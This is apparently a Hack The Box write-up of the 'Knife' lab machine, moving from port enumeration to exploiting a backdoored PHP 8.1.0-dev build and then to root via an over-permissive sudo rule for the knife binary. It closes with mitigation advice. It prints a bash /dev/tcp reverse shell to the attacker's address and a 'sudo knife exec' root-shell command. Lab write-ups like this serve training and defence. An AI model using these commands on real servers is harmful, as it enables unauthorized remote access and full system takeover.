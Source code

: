 ```yaml
---                                                                                           
title:  Hack The Box - Knife writeup                         
date: 2021-08-30 16:09:00 +0200                                                            categories: [ Hack The Box, Machines ]                                                                
tags: [common-vulnerability, php]     
dirImg: /assets/img/HackTheBox/Knife                     
  src: /assets/img/HackTheBox/Knife/icon.webp
  alt: Knife image
toc: false                                                                                    
---
```


In this post we explore the Knife machine hosted on the HackTheBox website. We first scan the machine to enumerate the open ports and the respective running services.

### Analyze and Discovery

We start with an `nmap` enumeration. The `-sC` flag enables the usage of the default nmap scripts and the `-sV` flag enables the service and version discovery.

```
  [#] ~ nmap -sC -sV -oN nmap-initial 10.10.10.242

Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-05 09:49 CEST
Nmap scan report for 10.10.10.242
Host is up (0.024s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.26 seconds
```

Two ports results to be open: port 22 for the ssh service and 80 which hosts an Apache web service.

Visiting the webserver we land on the following page:

>![]({{ page.dirImg }}/homepage.png){: .shadow}


The attack surface is very small as there aren't any input fields nor clickable links. The tabs on the top right of the page are not actually implemented.  

We can easily figure out that the website's backend language is PHP by noticing that the landing page is called `index.php`. This information may be useful in the future to tailor our enumeration/attacks.

We can gather further information on the resources hosted on the webserver by enumerating files or directories served on port 80. For this purpose, we can use `gobuster` and perform a dictionary-based brute force enumeration. 
As we know that the web server is written in php, it may contain files ending with `.php`. It may be useful to tell `gobuster` to also append the `.php` extension to the dictionary entries. The `-x` flag enables such feature.
The full `gobuster` command is 
```
gobuster dir -u http://10.10.10.242 -w SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php -t 50 -o gobuster-port80.txt
```

However the directory enumeration didn't return any valuable results. 

We can still examine the requests and responses generated when visiting the `index.php` page and see whether we can spot any anomalies. 

We open the Firefox developer tools and navigate to the `Network` tab. Here we can see the request sent by the browser to the server to request the `index.php` page and its respective response.

>![]({{ page.dirImg }}/20210605-095915.png){: .shadow}

The `X-Powered-By` HTTP response header leaks the `PHP` version in use

>![]({{ page.dirImg }}/20210605-100046.png){: .shadow}


Now that we know the specific version of php used, namely `php 8.1.0-dev`, we can google for known vulnerabilities.  
Our search produced a very interesting result:

>![]({{ page.dirImg }}/20210605-100432.png){: .shadow}

It confirms that the current version is vulnerable and contains a backdoor that may cause remote code execution. What we need to do is finding this backdoor and exploit it.   

### Insight into the `PHP` backdoor

In exploitDB we can find the reference to the malicious commit that introduced the backdoor in the PHP code base. ([ExploitDB](https://www.exploit-db.com/exploits/49933)).

The backdoor is contained in the following code snippet:

>![]({{ page.dirImg }}/20210605-101856.png){: .shadow}

As we can easily spot, the content of the `HTTP_USER_AGENTT` is scanned for the `zerodium` string. If the string is found, then the content after the first 8 bytes is evaluated.

So, if we build our `HTTP_USER_AGENTT` such that it starts with `zerodium` (8 bytes) than we will be able to execute the remaining bytes.

### Attacking and Tinkering

We know that the payload after the `zerodium` string will be executed in the server. Therefore we can embed a reverse shell to gain a shell in the remote machine.  
The server machine is running Ubuntu (as we can see from the `nmap` output), so we can use a simple tcp reverse shell that starts a connection to our local machine: `bash -i >& /dev/tcp/10.10.14.19/9001 0>&1`.  
(10.10.14.19 is the ip address of our local machine in the HTB network).


Indeed, we need to setup a tcp listener in our local machine to listen on port 9001 for the incoming connection. It can be done using netcat: `nc -lnvp 9001`.

The listener is ready, we can now trigger the backdoor.  
We embed our reverse shell into the `User-Agentt` header using BurpSuite.

>![]({{ page.dirImg }}/20210605-102948.png){: .shadow}

And we get the callback

>![]({{ page.dirImg }}/20210605-102850.png){: .shadow}


> An alternative to BurpSuite is the `curl` linux command. However, it would not be a very pleasant experience as one needs to pay close attention on escaping quotes.

We now have a shell as the **james** user. We can get the user flag by printing the `/home/james/user.txt` file.

#### Privilege Escalation

We can scan the machine for possible privilege escalation vectors.  

Before using any Linux enumeration scripts, we can try to see which commands the user **james** can execute as another user. It can be done using the `sudo -l` command.

>![]({{ page.dirImg }}/20210605-103224.png){: .shadow}

As we can see from the command's output, we can execute the `knife` binary as root without the need to provide a password. 

But what is knife?

>![]({{ page.dirImg }}/20210605-112124.png){: .shadow}

(More information on [Chef Documentation website](https://docs.chef.io/workstation/knife/) ) 

The documentation is indeed a useful resource to look at. It may be possible to find exploit vectors. 

As expected, going through the documentation highlighted an exploitable feature of the `knife` binary. It looks like we can execute arbitrary Ruby code:

>![]({{ page.dirImg }}/20210605-105525.png){: .shadow}

Therefore we run the binary as **root** and spawn a shell using Ruby code.

```bash
james@knife:/$ sudo knife exec -E 'exec "/bin/bash"'
sudo knife exec -E 'exec "/bin/bash"'
$ whoami
root
```

We managed to get **root**, flag is in `/root/root.txt`

### Reflection on the security

In this section we highlight the security weaknesses that allowed us to get full control over the remote server. Moreover, we propose solutions to mitigate and patch such vulnerabilities

#### Security weaknesses and recommendations

- We managed to get a foothold in the target machine by exploiting an outdated version of PHP which contained a known backdoor. The vulnerability is extremely easy to exploit and allows an unauthenticated attacker to remotely gain access to the server's OS. Given the high impact and easiness of exploitation, the vulnerability can be classified as high risk and should be immediately patched.   
We advice to always keep the software up to date. Publicly facing web servers should have high priority and be updated daily as they are the first point of entry to the machine.

- The `X-Powered-By` leaks the PHP version in use, thus easily giving out extra information to the attacker. Such header should be immediately suppressed. Without the info about the PHP version the attacker would have had a harder time breaking into the machine. However security by obscurity is never a good solution and the problem should be fixed at the root (keep the software up to date).

- We managed to escalate our privileges by exploiting an over permissive rule in the `sudoers` file. Such rule allowed the `james` user to execute the `knife` binary as root without the need of a password. Such configuration together with the large variety of features exposed by the binary, easily allow an attacker to gain full control over the machine.
It is still unclear why the `sudoers` file contained such entry but it is definitely an over permissive rule which does not follow the minimality principle.  
It's highly likely that the system administrator lazily set up the `knife` sudo permissions without taking security into account.  
In case the **james** user is required to execute part of the `knife` features, we advice to configure the `sudoers` file in a more granular way, giving the users access to the required features only, and only after an accurate analysis of such features.  

